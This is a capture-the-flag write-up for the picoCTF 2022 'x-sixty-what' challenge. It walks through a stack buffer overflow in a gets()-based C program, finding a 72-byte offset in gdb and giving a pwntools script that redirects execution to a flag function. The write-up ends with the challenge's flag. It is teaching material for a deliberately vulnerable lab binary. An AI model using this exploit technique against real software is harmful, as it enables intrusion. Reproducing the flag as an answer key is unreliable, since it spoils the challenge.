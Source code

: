 # x-sixty-what - picoCTF 2022 - CMU Cybersecurity Competition
Binary Exploitation, 200 Points

## Description

![‏‏info.JPG](images/info.JPG)
 
## x-sixty-what Solution

Let's observe the attached file [game-redacted.c](./game-redacted.c):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

Let's run ```checksec``` on the attached binary [vuln](./vuln):
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/x-sixty-what]
└──╼ $ checksec vuln
[*] '/home/user/Desktop/picoctf2022/binary_exploitation/x-sixty-what/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

We can see no [PIE](https://ir0nstone.gitbook.io/notes/types/stack/pie) enable.

We need to overwrite the return address to ```flag``` function on ```vuln``` function.

Let's check the offset between ```buf``` to ```RIP``` using ```gdb```:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/x-sixty-what]
└──╼ $ gdb vuln
gef➤  r
Starting program: /pictoctf2022/binary_exploitation/x-sixty-what/vuln 
Welcome to 64-bit. Give me a string that gets you the flag: 
AAAAAAAA

...
gef➤  search-pattern AAAAAAAA
[+] Searching 'AAAAAAAA' in memory
[+] In '[heap]'(0x405000-0x426000), permission=rw-
  0x4052a0 - 0x4052aa  →   "AAAAAAAA\n" 
[+] In '[stack]'(0x7ffffffde000-0x7ffffffff000), permission=rw-
  0x7fffffffde70 - 0x7fffffffde78  →   "AAAAAAAA" 
gef➤  i f
Stack level 0, frame at 0x7fffffffdec0:
 rip = 0x4012cf in vuln; saved rip = 0x401338
 called by frame at 0x7fffffffdef0
 Arglist at 0x7fffffffde68, args: 
 Locals at 0x7fffffffde68, Previous frame's sp is 0x7fffffffdec0
 Saved registers:
  rbp at 0x7fffffffdeb0, rip at 0x7fffffffdeb8

```

As we can see, the buffer located on ```0x7fffffffde70``` and ```RIP``` on ```0x7fffffffdeb8``` the offset is 72 bytes.

Let's find the address of ```flag``` function:
```console
gef➤  p flag
$1 = {<text variable, no debug info>} 0x401236 <flag>

```

So we need to write ```64+8``` bytes of chunk and then the address of ```flag``` function:
```
...|         buf[64]         |    8bytes   |    RIP   | ....
````

Let's solve it using [pwntools](https://docs.pwntools.com/en/stable/intro.html):
```python
from pwn import *

elf = ELF('./vuln')
libc = elf.libc

if args.REMOTE:
    p = remote('saturn.picoctf.net',53403)
else:
    p = process(elf.path)

# payload buffer
payload = b'A'*72
payload += p64(0x40123b) # Jump to the second instruction (the one after the first push instaed of 0x401236) in the flag function, if you're getting mysterious segmentation faults.

print(p.recvuntil(':'))
p.send(payload)
p.interactive()

```

Run it:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/x-sixty-what]
└──╼ $ python3 exp.py REMOTE
[*] '/home/user/Desktop/picoctf2022/binary_exploitation/x-sixty-what/vuln'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/usr/lib/x86_64-linux-gnu/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to saturn.picoctf.net on port 53403: Done
b'Welcome to 64-bit. Give me a string that gets you the flag:'
[*] Switching to interactive mode
 
$ 
picoCTF{b1663r_15_b3773r_011d4bd8}
[*] Got EOF while reading in interactive

```

And we get the flag ```picoCTF{b1663r_15_b3773r_011d4bd8}```.